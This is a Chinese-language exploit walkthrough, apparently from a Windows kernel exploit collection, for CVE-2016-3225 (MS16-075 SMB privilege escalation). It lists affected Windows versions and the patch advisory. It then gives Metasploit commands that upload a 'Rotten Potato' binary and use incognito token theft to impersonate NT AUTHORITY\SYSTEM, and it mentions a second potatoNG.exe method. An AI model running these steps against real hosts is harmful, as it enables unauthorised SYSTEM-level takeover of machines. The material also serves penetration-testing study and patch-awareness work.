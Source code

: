 ### CVE-2016-3225

#### 描述

Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。若要利用此漏洞，攻击者首先必须登录系统。然后，攻击者可以运行一个为利用此漏洞而经特殊设计的应用程序，从而控制受影响的系统。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10          | x86/x64          |         |        |                    |
| Windows 10          | x86/x64          | 1511    |        |                    |
| Windows 7           | x86/x64          |         | SP1    | &#10004; |
| Windows 8.1         | x86/x64          |         |        |                    |
| Windows Rt 8.1      |                  |         |        |                    |
| Windows Server 2008 | x86/x64          |         | SP2    |                    |
| Windows Server 2008 | x86/x64          | R2      | SP1    |                    |
| Windows Server 2012 |                  |         |        |                    |
| Windows Server 2012 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2016-3225
```

#### 利用方式

> 注意：需要用管理员权限运行MSF生成的文件才能提权到system权限

Windows 7 SP1 x64测试中，使用`whoami /priv`命令查看发现并无**SeImpersonatePrivilege**特权烂土豆提权需要该特权为开启状态，所以测试的时候直接用管理员权限运行

![image-20200819140202765](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-3225_win7_x64.png)

利用MSF+烂土豆提权，首先我们假定机器已经上线，通过msf中自带的插件来识别当前系统中可以利用的EXP来进行提权

```
use multi/recon/local_exploit_suggester
set session 1 #当前机器的session
run
```

如果没有用管理员权限运行MSF生成的exe的话，脚本检测是这样的

![image-20200819112155945](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-3225_win7_x64_msf_1.png)

如果使用管理员权限运行的话检测是这样的，可以看到比上面多了个ms16_075

![image-20200819140819782](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-3225_win7_x64_msf_2.png)

编译好烂土豆的文件

```
potato.exe
```

接着上传编译好的文件

```
upload /Users/ascotbe/Downloads/Potato.exe C:/Users/ascotbe #上传potato.exe到目标机器中的C:\Users\ascotbe目录下,msf无法识别\符号所以必须使用/符号
```

然后执行如下命令即可提权成功了

```
use incognito #加载incoginto功能（用来盗窃目标主机的令牌或是假冒用户)
list_tokens -u #列出目标主机用户的可用令牌
execute -cH -f C:/Users/ascotbe/potato.exe #创建新的进程
list_tokens -u #列出目标主机用户的可用令牌
impersonate_token "NT AUTHORITY\SYSTEM"#假冒目标主机上的可用令牌
```

![image-20200819141240274](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-3225_win7_x64_msf_3.png)

进入shell查看

![image-20200819141337651](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-3225_win7_x64_msf_4.png)

> 第二种利用方式

编译方式

- VS2019（V141）X64 Release

由于普通账号没有**SeImpersonatePrivilege**特权，这边用管理员账号来演示，利用程序**potatoNG.exe**直接上GIF图

![4](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2016-3225_win7_x64.gif)

